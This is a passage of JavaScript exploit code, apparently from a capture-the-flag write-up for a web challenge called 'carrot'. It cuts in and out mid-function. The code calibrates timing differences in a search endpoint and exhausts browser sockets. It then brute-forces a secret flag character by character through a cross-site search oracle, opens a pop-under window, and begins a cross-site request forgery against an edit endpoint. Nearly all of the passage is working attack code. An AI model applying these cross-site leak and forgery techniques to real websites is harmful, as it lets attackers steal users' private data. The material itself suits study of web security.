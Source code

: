 ```html
if (await oracle(flag + char)) {
return char;
}
}
return false;
}

const calibrate = async () => {
return new Promise(async (r) => {
// slow
let url1 = `https://carrot-${INSTANCE}.mc.ax/tasks?search=dice{`
let t1 = await timeit(url1, WINBG)
console.log(`slow:${t1}`)
// fast
let url2 = `https://carrot-${INSTANCE}.mc.ax/tasks?search=XXXXXXXXXX`
let t2 = await timeit(url2, WINBG)
console.log(`fast:${t2}`)
return r((t1 + t2) / 2)
});

}

const exploit = async(flag = '') => {
console.log('Starting')
// dont go to fast plz :)
console.log(`waiting 3s`)
await sleep(3000)
// exaust sockets
await exhaust_sockets()
await sleep(2000)
LOG = `Calibrating`
TIMELIMIT = await calibrate()
LOG = `TIMELIMIT:${TIMELIMIT}`
console.log(`timelimit:${TIMELIMIT}`)
await sleep(2000)
let last;
while (true) {
last = await brute(flag);
if (last === false) {
return flag;
}
else {
flag += last;
output.innerText = flag;
if(last === '}'){
return flag
}
}
}
}

const popunder = () => {
if (window.opener) {
WINBG = window.opener
}
else {
WINBG = window.open(location.href, target="_blank")
location = `about:blank`
}
}

const csrf = async () => {
x.action = `https://carrot-${INSTANCE}.mc.ax/edit/0`
```
